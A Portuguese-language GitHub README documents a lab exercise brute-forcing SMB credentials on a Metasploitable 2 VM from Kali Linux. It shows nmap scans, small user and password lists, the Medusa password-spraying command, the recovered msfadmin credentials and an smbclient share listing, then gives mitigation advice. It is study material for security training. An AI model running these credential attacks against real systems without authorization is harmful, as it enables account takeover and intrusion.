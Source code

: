 # 🛡️ Projeto: Simulação de Ataque de Força Bruta com Medusa e Kali Linux

## 🎯 Objetivo
Este projeto tem como objetivo demonstrar, em ambiente controlado, a execução de um ataque de força bruta utilizando a ferramenta **Medusa** no **Kali Linux**, direcionado a serviços vulneráveis do **Metasploitable 2**, simulando um cenário real de auditoria de segurança.  
Ao final, também são apresentadas recomendações de mitigação.

---

## 🧩 Ambiente de Laboratório

| Sistema | Função | IP | Ferramentas |
|----------|--------|----|-------------|
| Kali Linux | Atacante | 192.168.15.77 | Nmap, Medusa, smbclient |
| Metasploitable 2 | Alvo | 192.168.15.87 | Serviços vulneráveis (FTP, SSH, SMB, etc.) |

**Rede:** Host-Only (VirtualBox)  
**Objetivo:** Simular ataques controlados e documentar os resultados.

---

## 🔍 Etapa 1 – Varredura de Rede com Nmap

O primeiro passo foi identificar os serviços ativos no host alvo:

```bash
sudo nmap -sS 192.168.15.87
```

Resultado principal:
```
21/tcp  open  ftp
22/tcp  open  ssh
23/tcp  open  telnet
25/tcp  open  smtp
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

📸 **Print:** `/images/nmap_scan.png
---

## 🔎 Etapa 2 – Detecção Detalhada de Serviços

Para obter mais detalhes sobre as versões dos serviços e banners, foi usado:

```bash
sudo nmap -p21-400 -A 192.168.15.87
```

O comando identificou o serviço **vsFTPd 2.3.4** (conhecido por vulnerabilidades antigas) e o **OpenSSH 4.7p1**.

📸 **Print:** `/images/nmap_detalhado.png`

---

## 💣 Etapa 3 – Ataque de Força Bruta SMB (Password Spraying)

Com base nos serviços expostos, foi escolhido o **SMB (porta 445)** para o ataque.  
Foram criados dois arquivos simples:

**Arquivo `smb_users.txt`:**
```
msfadmin
service
user
```

**Arquivo `senhas_spray.txt`:**
```
password
123456
Welcome123
msfadmin
```

Execução do ataque:

```bash
medusa -h 192.168.15.87 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

✅ Resultado:
```
ACCOUNT FOUND: [smbnt] Host: 192.168.15.87 User: msfadmin Password: msfadmin [SUCCESS]
```

📸 **Print:** `/images/medusa_smb_success.png`

---

## 📂 Etapa 4 – Validação do Acesso SMB

Após encontrar as credenciais válidas, foi feita a conexão ao compartilhamento SMB:

```bash
smbclient -L //192.168.15.87 -U msfadmin
```

Resultado:
```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
tmp             Disk      oh noes!
opt             Disk
ADMIN$          IPC       IPC Service (metasploitable server)
msfadmin        Disk      Home Directories
```

📸 **Print:** `/images/smbclient_list.png`

---

## 🧠 Conclusão

O teste simulou com sucesso um ataque de força bruta em ambiente controlado, permitindo a obtenção de credenciais válidas.  
Essa demonstração mostra como senhas fracas e repetidas são facilmente exploráveis.

---

## 🛡️ Recomendações de Mitigação

- Aplicar **políticas de senha forte** (mínimo de 10 caracteres, complexidade e expiração).  
- Implementar **bloqueio de conta** após várias tentativas falhas.  
- Monitorar logs de autenticação e configurar alertas de **intrusão**.  
- Desabilitar serviços desnecessários (como Telnet ou FTP).  
- Utilizar **autenticação multifator (MFA)** sempre que possível.

---

## 📚 Ferramentas Utilizadas

- **Kali Linux 2025.2**
- **Medusa v2.3**
- **Nmap 7.95**
- **Metasploitable 2**
- **smbclient**

---

## 🖼️ Estrutura do Repositório

```
📂 kali-medusa-bruteforce
├── README.md
├── smb_users.txt
├── senhas_spray.txt
└── /images
    ├── nmap_scan.png
    ├── nmap_detalhado.png
    ├── medusa_smb_success.png
    └── smbclient_list.png
```

---

## 👨‍💻 Autor

**Vitor Lopes Fernandes de Souza**  
